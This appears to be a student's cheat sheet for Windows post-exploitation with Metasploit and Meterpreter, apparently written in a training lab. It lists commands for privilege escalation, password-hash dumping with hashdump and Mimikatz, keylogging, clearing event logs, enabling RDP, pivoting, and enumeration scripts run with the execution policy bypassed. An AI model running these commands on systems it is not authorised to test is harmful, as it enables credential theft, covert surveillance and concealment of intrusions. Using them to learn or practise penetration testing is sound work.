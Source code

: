 ![](</Images/Pasted image 20240103201637.png>)
### different metasploit commands

### meterpreter
getsystem
> use to elevate privs

hashdump
> dump hashes

#NTML hash format
username:UID:LM hash:NTML hash
### modules (can also use #Kiwi via load in meterpreter)
win_privs
> enumerate current user privs

enum_logged_on_users
> numerate users that are logged on

checkvm
> check to see if system is vm or not. Useful to see if breaking out of vm is possible

enum_applicaitons
> see what programs are installed along with versions

enum_av_exluded
> will show folders that are excluded from AV program. If there is one exploits can be hidden here

enum_computers
>enumerate connected machines

enum_patches
> enumerate applied patches

All of this info is stored locally. if created in a workspace `loot` command will list out these files

### Mimikatz
This is Kiwi running Mimikatz in memory. Due to Mimikatz needing to be uploaded to target system. Can be found here:

From meterpreter: `upload /.usr/share/windows-resources/mimikatz/` then find correct version and file. Execute once on system. Commands are different. ie `privilege::debug` format

Pass the hash with #psexec 
See [Tools](obsidian://open?vault=cheatsheet&file=Tools%2FPSExec)

### enable RDP post explotation
`search enable_rdp`

That enables rdp along with port. Once done use #xfreerdp to connect. Requires credentials which can be created with `enable_rdp`

To login:
```
xfrerdp /u:<user> /p:<pass> /v:<ip>
```

### keylogging

Feature inside meterpreter
`keyscan_start`
`keyscan_dump`
`keyscan_stop`

### clearing windows event logs
From meterpreter `clearev`

### Pivoting
#pivoting

With #meterpreter 
Run ipconfig for IP 

`run autoroute -s <ip>/<subnet>`

Note route is **only** available for msf tools using this method. To scan for ports on new machine use `auxiliary/scanner/portscan/tcp`

If use is needed outside of msf port forwarding is required. Done in meterpreter
`portfwd add -l <local port> -p <port to forward> -r <new IP>`

Then to use nmap scan local  port from above:
`db_nmap -sV -p <local port from above> localhost`

If attempting a meterpreter session use `windows/meterpreter/bind_tcp` change port if running meterpreter already

![](</Images/Pasted image 20240115133710.png>)
## Enumerating
![](</Images/Pasted image 20240115134525.png>)

### meterpreter
getuid: get user info
sysinfo: get system info
getprivs: see privileges 

### command prompt
hostname: hostname
systeminfo: gives a lot of info on system, including hotfixes

## WMIC 
use once logged onto windows system
Collects additional system info especially with hotfixes
`wmic qfe get Caption,Description,HotFixID,Installation`

# Enumerating Users and Groups
### meterpreter
getuid check for admin level
getprivs: lists out privileges
shell: open cmd.exe

### shell
whoami: show user info
whoami /priv: shows privs
query user: shows current logged on users !important
net users: shows other accounts in system
net user administrator: shows info on particular user. administrator in example
net localgroup administrators: lists members in a group

### metasploit
post/windows/gather/enum_logged_on_users: shows users that have logged in recently
post/windows/gather/win_privs: msf script to show privs
enum_computers: will enumerated all connected computers

show_mount: shows mounted drives
# Enumerating Network Information

![](</Images/Pasted image 20240115151100.png>)
### shell
ipconfig: shows network information
ipconfig /all: additional network information
route print: gives rounting info
arp -a list arp information
netstat -ano: lists active connections
netsh advfirewall firewall dump: gives firewall info
netsh advfirewall firewall show allprofiles: show if windows firewall is running
netsh advfirewall: gives help menu

Seeing firewall rules can help with listeners on open ports

# Enumerating Processes & Services

![](</Images/Pasted image 20240115152552.png>)

### meterpreter
ps: list out running processes
pgrep explorer.exe: to search for PID by process name
- migrate to explorer.exe preferred
migrate 2176: migrate to a process

### shell
net start: shows background services that are started. Not processes
wmic service list brief: similar to ps
tasklist /SVC: lists running processes, services, PID's
schtasks /query /fo LIST v: lists scheduled tasks (like crontab for exploitation)

# Automating Windows Local Enumeration

### JAWS
automated script to help enumeration and find escalation vectors. Can be found [here](www.github.com/411Hall/JAWS)

crtl + shift + alt to open clipbpard in guacamole

upload file into Temp and swtich meterpreter to shell to execute

Need to set executpoion policy first

powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt